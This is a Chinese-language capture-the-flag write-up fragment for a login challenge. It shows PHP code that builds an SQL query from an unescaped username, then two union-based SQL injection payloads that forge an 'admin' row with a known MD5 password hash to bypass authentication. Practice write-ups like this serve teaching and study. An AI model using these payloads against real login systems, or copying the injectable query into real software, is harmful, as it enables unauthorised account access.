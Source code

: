 * * *

比较基础的题目，和上一题不同，username password 分开来验证。通常的利用方法是使用 union 构造已知 MD5 值的查询。

漏洞代码：

```
function auth2_onLogin(WC_Challenge $chall, $username, $password)
{
        $db = auth2_db();

        $password = md5($password);

        $query = "SELECT * FROM users WHERE username='$username'";

        if (false === ($result = $db->queryFirst($query))) {
                echo GWF_HTML::error('Auth2', $chall->lang('err_unknown'), false);
                return false;
        }

        #############################
        ### This is the new check ###
        if ($result['password'] !== $password) {
                echo GWF_HTML::error('Auth2', $chall->lang('err_password'), false);
                return false;
        } #  End of the new code  ###
        #############################

        echo GWF_HTML::message('Auth2', $chall->lang('msg_welcome_back', array(htmlspecialchars($result['username']))), false);

        if (strtolower($result['username']) === 'admin') {
                $chall->onChallengeSolved(GWF_Session::getUserID());
        }

        return true;
}

```

利用语句:

```
username=wyl' union select 1,'admin','c4ca4238a0b923820dcc509a6f75849b' --  &password=1&login=Login 
```

也可以直接使用 mysql 自带的 MD5 函数来生成 hash

```
username=wyl' union select 1,'admin',md5('1') --  &password=1&login=Login 
```

## No Escape
